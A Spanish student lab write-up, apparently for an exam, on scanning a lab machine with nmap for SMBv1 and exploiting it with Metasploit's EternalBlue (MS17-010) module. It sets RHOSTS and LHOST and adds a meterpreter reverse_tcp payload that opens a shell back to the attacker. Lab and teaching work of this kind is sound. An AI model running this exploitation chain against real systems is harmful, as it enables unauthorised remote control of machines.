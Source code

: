 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-03-11 18:10:00 -05:00
categories: [Reconnaisance, Kill Chain, Pentesting]
tags: [nmap, kali, metasploit]  # TAG names should always be lowercase
---
```



# RESOLUCION DE EXAMEN PARCIAL

para iniciar con nuestro laboratorio tenemos que :
para nuestra maquina kalilinux: 10.0.2.9
para nuestra maquina metasploit: 10.0.2.4
![virtual](/assets/images/virtual.png)

con ello podremos realizar nuestro primer paso:

1. Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
```bash 
        nmap -sV -p- -oA smb_scan 10.0.2.4.
```


donde:
- -sV: Realiza una detección de versión de los servicios.
- -p-: Escanea todos los puertos, del 1 al 65535.
- -oA smb_scan: Guarda los resultados del escaneo en archivos con el prefijo 
"smb_scan".
- 10.0.2.4: es la IP de nuestra victima.

![dos](/assets/images/dos.png)

 
obteniendo como respuesta la siguiente imagen:
![tres][def]

[def]: /assets/images/tres.png

por lo que averiguo un poco mas sobre el SMBv1 y ejecuto este otro comando:
```bash 
        nmap -p 139,445 --script=smb-protocols <10.0.2.4>
```
explicando un poco a lo averiguado:
- los puertos 139 y 445 son los puertos asociados con el servicio SMB.
- El flag --script=smb-protocols indica a Nmap que utilice el script "smb-protocols" para enumerar los protocolos SMB habilitados en el servidor.
- Al analizar la salida del comando, busco específicamente el término "SMBv1" o "NT LM 0.12" en la lista de protocolos SMB detectados.
- Si veo una línea que indica "SMBv1: Enabled" o "NT LM 0.12: Supported", entonces puedo confirmar que el servicio SMBv1 está habilitado en el servidor objetivo.

gracias a la ayuda del tip brindado, y obtengo la siguiente respuesta:
![cuatri](/assets/images/cuatro.png)

explicando un poco mas lo encontrado respecto al comando de nmap en los puertos 139,445. Segun lo que muestra estos puertos estan abiertos, el puerto 139/tcp es un servicio netbios -ssn, el puerto 445/tcp es un servicio microsoft-ds y estos puertos estan asociados con el servicio SMB.

smb-protocols fue utilizado para enumerar los protocolos SMB habilitados, el resultado muestra que el protocolo NT LM 0.12 o SMBv1 esta presente, y se lo describe como peligroso pero esta como predeterminado. Esto indica que el servidor tiene habilitado el servicio SMBv1 que en un principio se habia habilitado segun las indicaciones del docente. Algo adicional que se podria indicar es que el escaneo se completo en 0.22 segundos.

2. segun los resultados del escaneo con NMAP, el servidor objetivo tiene habilitado el servicio SMBv1, lo cual lo hace vulnerable a diversos ataques, entre ellos el exploit eternalBlue MS17-010.

* segun su tip, para explotar esta vulnerabilidad utilizaremos el framework metasploit y seleccionare el modulo:
```bash 
        exploit/windows/smb/ms17_010_eternalblue
```
## pasos
 para ejecutar el modulo entraremos primero a metasploit con el comando 
 ```bash 
        msfconsole -q
```

luego usaremos el modulo:
```bash 
        use exploit/windows/smb/ms17_010_eternalblue
```
donde configuraremos los parametros necesarios para el exploit, por ejemplo:
- set RHOSTS 10.0.2.4
- set LHOST 10.0.2.9
- set RPORT 445

![cinco](/assets/images/cinco.png)

![seis](/assets/images/seis.png)

explicando un poco lo que se ha realizado, es que este modulo aprovecha la vulnerabilidad CVE-2017-0143, conocida como EternalBlue, que afecta a la implementacion del protocolo SMBv1 en sistemas Windows. Esta vulnerabilidad permite ejecutar el codigo arbitrario en el sistema objetivo a traves de un desbordamiento de bufer en el procesamiento de paquetes SMB maliciosos.

Al ejecutar este modulo, metasploit enviara los payloads SMB necesarios para explotar esta vulnerabilidad y establecer una conexion de reverse shell desde el sistema objetivo hacia nuestra maquina atacante. Esto permitira obtener acceso remoto y control sobre el sistema objetivo.

![siete](/assets/images/siete.png)

segun la respuesta de este modulo se puede apreciar que metasploit identifica que el servidor objetivo 10.0.2.4 es vulnerable a MS17-010 EternalBlue, que afecta a windows.
se establece una conexion con el servidor objetivo para realizar la explotacion, una vez realizada esta conexion se procede a un volcado del bufer de memoria cruda del servidor, se envian los payload SMB maliciosos para explotar la vulnerabilidad. 
La expotacion se completa con exito, indicado por la salida ETERNALBLUE overwrite completed successfully, posterior a ello se envia una señal de control a la conexion corrupta. 

adicionalmente indico un tip el cual era realizar un payload, este "windows/x64/meterpreter/reverse_tcp", nos permite obtener una seseion de meterpreter despues de que el exploit sea ejecutado con exito. Este establecere una conexion de reverse shell.

![ocho](/assets/images/ocho.png)

una vez generado este exploit procedo a documentar primero la sesion meterpreter en la maquina victima si el ataque es exitoso.

![nueve](/assets/images/nueve.png)

para mi caso el mensaje de salida de metasploid indica que, METERPRETER SESION 2 OPENEDED 10.0.2.9:4444   10.0.2.4:49279  2024-11-03 a las 16:25:03 -8


![nueve](/assets/images/nueve.png)

esto confirmaria que la explotacion fue exitosa y se establecio una sesion de meterpreter en la maquina atacante y el servidor objetivo.
sdsd
